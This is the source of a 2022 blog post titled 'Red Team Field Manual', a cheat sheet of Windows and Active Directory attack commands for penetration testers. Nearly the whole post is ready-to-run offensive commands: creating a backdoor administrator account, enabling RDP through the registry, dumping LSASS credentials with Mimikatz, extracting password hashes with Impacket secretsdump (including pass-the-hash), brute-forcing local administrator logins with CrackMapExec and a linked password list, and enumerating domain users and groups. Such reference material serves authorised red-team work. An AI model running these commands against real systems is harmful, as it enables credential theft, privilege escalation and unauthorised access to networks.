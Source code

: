 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: RedTeam, ActiveDirectory
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
### Impacket secretsdump - DUMP Local User Hashes via Domain Creds
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> #Enter with Domain Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Domain NTLM Hash

    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> #Enter with Local Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Hash

    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash

### Find Domain Controller In BlackBox Testing

    nmap -p389,636 --open -iL <IP_List_File>  #389(LDAP) / 636(LDAP-SSL)
    
    -> If you have a domain joined Windows Machine
    nslookup -querytype=SRV _LDAP._TCP.DC._MSDCS.<domain_name>
    
    nltest /server:<IP> /dclist:<domain_name>
    
    (From PS) [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers
    
### Crackmapexec Local Administrator Brute Force Attack

    crackmapexec smb <IP List File> -u Administrator -p <Password List File> -d .

[My Own Password Brute Force List](https://github.com/br33z3/br33z3.github.io/blob/main/assets/static/pass.txt)
    
### Find All Domain Groups

    Get-ADGroup -Filter *

### Find Users In Spesific Domain Group

    net group "<Group_Name>" /domain

### Find Disabled Users In Domain

    dsquery user "DC=...,DC=..." -disabled
    
### Find How Many Users Exist In Domain

    dsquery user "DC=...,DC=..." -limit 0| Measure-Object
